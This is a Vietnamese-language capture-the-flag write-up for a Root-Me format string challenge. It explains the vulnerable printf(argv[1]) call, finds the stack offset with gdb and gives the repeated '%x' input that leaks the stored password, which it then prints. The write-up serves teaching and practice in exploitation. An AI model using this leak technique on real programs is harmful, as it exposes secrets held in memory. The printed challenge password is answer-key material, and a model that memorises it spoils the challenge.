

# ELF x86 - Format string bug basic 1

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Trong bài này xuất hiện lỗi format string cơ bản ở câu lệnh `printf(argv[1])` cho phép chúng ta leak password được đọc vào ở mảng `buffer[32]`. Có 2 cách để leak password, 1 là đặt địa chỉ của chuỗi `buffer` và sử dụng `%s`, hoặc sử dụng `%x` nhiều lần liên tục để leak lần lượt 4 kí tự. Ở đây mình chọn cách 2 vì địa chỉ trên stack lúc runtime sẽ có chút khác biệt và mình không muốn phải mò mẫm. 

Truy cập vào server và dùng gdb debug để tìm vị trí của mảng.



Ta thấy rằng trước khi gọi hàm `fgets`, địa chỉ `[ebp – 0x2c]` được đưa vào stack, đây chính là địa chỉ của `buffer`, trước đó lúc bắt đầu hàm main đã tiến hành setup như hình dưới, vì vậy ta tính được khoẳng cách `buffer` đến esp là 0x58 – 0x2c là 0x2c tức là offset `%11$x` trở đi. `(0x58 – 0x2c) / 4 – 1 = 11`


Một điều khiến mình cực kì khó chịu ở hệ thống rootme là không thể sử dụng `%11$x` để chỉ chính xác vị trí cần leak được, chúng ta phải sử dụng 10 lần `%x` trước đó để chạm đếm đúng vị trí.

Nhập vào chuỗi 

```bash
./ch5 %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 
```

để tiến hành leak


Do tại offset 14 có 1 byte NULL vì thế chuỗi đã kết thúc.

Ta tìm được password là: `Dpa9d6)(Epamd`

